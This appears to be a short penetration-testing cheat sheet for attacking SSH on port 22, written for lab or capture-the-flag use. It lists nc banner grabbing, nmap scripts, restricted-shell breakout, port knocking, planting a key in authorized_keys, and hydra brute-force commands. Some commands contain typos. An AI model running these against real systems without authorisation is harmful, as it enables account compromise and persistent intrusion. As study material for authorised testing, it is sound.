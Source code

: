 # 22 (SSH)

## Enumeration

### Banner Grabbing

```bash
nc <IP> 22
nc -vn <IP> 22
```

### Connections

#### SSH

```bash
ssh <username>@<IP>
ssh <username>@<IP> -i id_rsa  # Login via private key. chmod 600
```

#### SCP

```bash
scp <filename> <username>@<IP>:/path/to/copy
```

#### SFTP

```bash
sftp <IP>
```

### nmap Scripts

```bash
nmap -p 22000 -sV -Pn -T4 --script=ssh* <IP>
```

### Restricted Shell Breakout

```bash
ssh joe@funbox -i joe_id_rsa -t "bash --noprofile"
ssh seppuku@192.168.53.90 -t "bash --noprofile"
```

### Account Login Error

```bash
# When getting a specific error where only SFTP works, try...
ssh -v <username>@<IP> id
ssh -v <username>@<IP> /bin/bash
```

### Port knocking

```bash
# If nmap comes back showing port 22 as filtered...
# We need to find the /etc/knockd.conf (thorough LFI or FTP or something else)
# Inside there is a sequence
knock IP SEQUENCE1 SEQUENCE2 SEQUENCE3
# Check nmap again
```

### Key Generation

```bash
# Attack machine
ssh-keygen
chmod 600
cat <filename>.pub
# Target
echp <filename>.pub >> <PATH>/.ssh/authorized_keys
```

## Brute Force

```bash
hydra -v  -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 <IP> ssh
hydra -l <username> -P passwords.txt -T 20 <IP> ssh
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```
